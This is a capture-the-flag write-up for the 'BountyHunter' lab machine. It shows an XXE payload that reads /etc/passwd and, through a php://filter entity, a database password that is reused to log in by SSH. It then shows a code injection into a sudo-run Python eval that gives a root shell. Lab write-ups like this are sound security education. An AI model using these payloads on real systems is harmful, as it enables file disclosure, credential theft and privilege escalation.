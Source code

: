 ## **BOUNTY HOUNTER  WRITE  UP**

Machine Difficulty: <span style="color:#39e600">Easy</span> | Machine OS: <span style="color:#39e600">Linux</span>

![image-20210730010535743](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/a24c032885e56a17a6c74cc58b63e8f4.png?raw=true)

Bounty hunter is an easy box based on well known vulnerability with a twist. For the initial foothold if you find the path you have to follow it and when it comes to end think a little bit different (OWASP will help you a lot). The root is straightforward, maybe you stuck for a bit, but if you combine some things you will get what you want!

----



**Nmap Scan**

![image-20210730010535743](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010535743.png?raw=true)

**Gobuster Scan**

![image-20210808143902953](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143902953.png?raw=true)

Accessing the /portal.php we see a bounty report form.

![image-20210808143133909](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143133909.png?raw=true)

Let's take the request in burp and analyze it a little bit.

![image-20210808143249434](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143249434.png?raw=true)

```
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT50ZXN0PC90aXRsZT4KCQk8Y3dlPnRlc3Q8L2N3ZT4KCQk8Y3Zzcz50ZXN0PC9jdnNzPgoJCTxyZXdhcmQ%2BdGVzdDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

Base64 decode. We see a xml and that is a good sign!

 ```
 <?xml  version="1.0" encoding="ISO-8859-1"?>
 		<bugreport>
 		<title>test</title>
 		<cwe>test</cwe>
 		<cvss>test</cvss>
 		<reward6É•Ý…É�'Vw&W'C`
 ```

It brakes a little bit. We have to URL decode first and then base64 decode.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

**XXE payload**

Create a new **ENTITY** called xxe, **SYSTEM** is a keyword that let the XML parser know that the ENTITY type is **EXTERNAL**

More about XXE on  [PortSwigger](https://portswigger.net/web-security/xxe/ ) 

````
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1</reward>
		</bugreport>

````

Final PoC with URL and base64 encoded

```
data= PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj4gXT4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4meHhlOzwvdGl0bGU%2BCgkJPGN3ZT5UZXN0PC9jd2U%2BCgkJPGN2c3M%2BMTIzPC9jdnNzPgoJCTxyZXdhcmQ%2BMTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

*Response:*

![image-20210727231428484.png](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210727231428484.png?raw=true)

We successfully read the **/etc/passwd** file!

I tried to find the id_rsa of the user **developemt**, to access the **/etc/shadow**, to access the the **db.php** but all was a dead end.

Until I used filter base64 to access the **db.php**

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
```

![image-20210730010636672](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010636672.png?raw=true)

We got a base64 string response

```
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
```

*Decoded*. 

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

We successfully login with ssh as **development**.

![image-20210730010919988](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010919988.png?raw=true)

****



## **Privilege Escalation**

My fav command **sudo -l**

![image-20210730012727472](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730012727472.png?raw=true)

Let's locate ticketValidator.py and examine it.

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```

There is also and a folder with invalid tickets, this will help us!

![image-20210730013101639](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-2021073001053003.png?raw=true)

Invalid ticket (/opt/skytrain_inc/invalid_tickets)

```
# Skytrain Inc
## Ticket to Bridgeport
__ticket code:__
**18+71+8**
##Issued: 2021/06/21
#End Ticket

```

After some time modifying my **test.md** this is the final PoC for root.

```
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**18+71 + __import__('os').system('/bin/bash')
```

```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

![image-20210730171259804](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730171259804.png?raw=true)

ROOT ROOT ROOT!

<span style="font-family:Papyrus; font-size:2em;">Happy Hacking!</span> 



